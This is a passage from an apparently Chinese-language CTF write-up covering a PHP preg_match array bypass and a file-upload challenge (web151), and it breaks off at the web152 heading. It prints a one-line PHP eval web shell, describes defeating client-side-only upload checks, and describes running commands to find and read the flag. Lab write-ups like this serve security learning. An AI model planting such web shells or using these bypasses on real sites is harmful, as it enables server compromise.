 `preg_match`函数只能处理字符串，无法处理数组，若直接提交一个数组则会直接返回

则可以直接提交一个非空数组进行绕过：`/?unm[]=`

得到flag



---

## 文件上传

#### web151

![image-20250310194016030](assets/image-20250310194016030.png)

打开网页发现要求上传一张png图片，尝试上传php文件

```
<?php

eval($_POST[1]);
?>
```

回显

![image-20250310194552622](assets/image-20250310194552622.png)

题目提示`前台校验不可靠`，右键检查查看源码，发现一项限定了上传文件

![image-20250310194659124](assets/image-20250310194659124.png)

直接将png改成php或删掉，再此上传php文件，成功上传

后续访问`/upload/上传文件名`rce即可，发现flag文件在上一级目录（`ls ../`拿到），后续读文件即可



#### web152

![image-20250310201043038](assets/image-20250310201043038.png)
